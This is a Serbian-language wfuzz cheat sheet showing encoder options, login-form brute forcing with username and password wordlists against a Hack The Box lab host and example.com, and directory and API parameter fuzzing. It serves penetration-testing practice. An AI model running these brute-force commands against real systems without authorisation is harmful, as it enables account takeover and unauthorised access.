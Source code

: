 ```bash
wfuzz -e encoders #Prints the available encoders
#Examples: urlencode, md5, base64, hexlify, uri_hex, doble urlencode
```

Da biste koristili enkoder, morate ga naznačiti u opciji **"-w"** ili **"-z"**.

Primeri:

```bash
-z file,/path/to/file,md5 #Will use a list inside the file, and will transform each value into its md5 hash before sending it
-w /path/to/file,base64 #Will use a list, and transform to base64
-z list,each-element-here,hexlify #Inline list and to hex before sending values
```

## CheetSheet

### Brute force napad na login formu

#### **POST, Jedna lista, filter string (sakrij)**

```bash
wfuzz -c -w users.txt --hs "Login name" -d "name=FUZZ&password=FUZZ&autologin=1&enter=Sign+in" http://zipper.htb/zabbix/index.php
#Here we have filtered by line
```

#### **POST, 2 liste, filter kod (prikaži)**

```bash
wfuzz.py -c -z file,users.txt -z file,pass.txt --sc 200 -d "name=FUZZ&password=FUZ2Z&autologin=1&enter=Sign+in" http://zipper.htb/zabbix/index.php
#Here we have filtered by code
```

#### **GET, 2 liste, filter string (prikaži), proxy, kolačići**

***

#### **GET, 2 листе, филтер стринг (прикажи), прокси, колачићи**

```bash
wfuzz -c -w users.txt -w pass.txt --ss "Welcome " -p 127.0.0.1:8080:HTTP -b "PHPSESSIONID=1234567890abcdef;customcookie=hey" "http://example.com/index.php?username=FUZZ&password=FUZ2Z&action=sign+in"
```

### Brute force direktorijuma/RESTful brute force

[Arjun lista reči za parametre](https://raw.githubusercontent.com/s0md3v/Arjun/master/arjun/db/params.txt)

```
wfuzz -c -w /tmp/tmp/params.txt --hc 404 https://domain.com/api/FUZZ
```
